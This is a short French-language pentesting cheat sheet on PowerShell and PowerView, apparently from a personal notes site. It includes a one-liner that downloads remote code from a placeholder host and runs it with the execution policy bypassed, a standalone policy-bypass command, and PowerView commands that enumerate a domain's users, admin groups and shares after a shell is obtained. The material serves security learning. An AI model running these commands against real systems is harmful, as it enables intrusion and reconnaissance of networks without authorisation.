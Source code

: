 ```yaml
---
layout: default
---
```


### PowerShell & PowerView


#### [Retour](../index.md)

### Télécharger un fichier depuis un server web

````powershell 
IEX(New-Object NET.WebClient).DownloadString("http://ip:port/fichier_à_download") | powershell -exec bypass
````

#### PowerView
 - Script utilisé pour énumérer un domaine après avoir déjà obtenu un shell dans le système.
 
#### Bypass les droits qui gène l'exécution de scripts :
````powershell
 powershell -ep bypass
 ````
 
#### Lancement de PowerView :
````powershell
. .\Downloads\PowerView.ps1
````

#### Afficher les informations d'un domaine :
````powershell
Get-NetComputer -fulldata | select operatingsystem
````
#### Afficher les utilisateurs du domaine :
````powershell
Get-NetUser | select cn
````
#### Afficher les groupes du domaine (contenant admin) :
````powershell
Get-NetGroup -GroupName *admin*
````

#### Lister les dossiers partagés :
````powershell
Invoke-ShareFinder
````

[Hacktricks-Documentation](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview)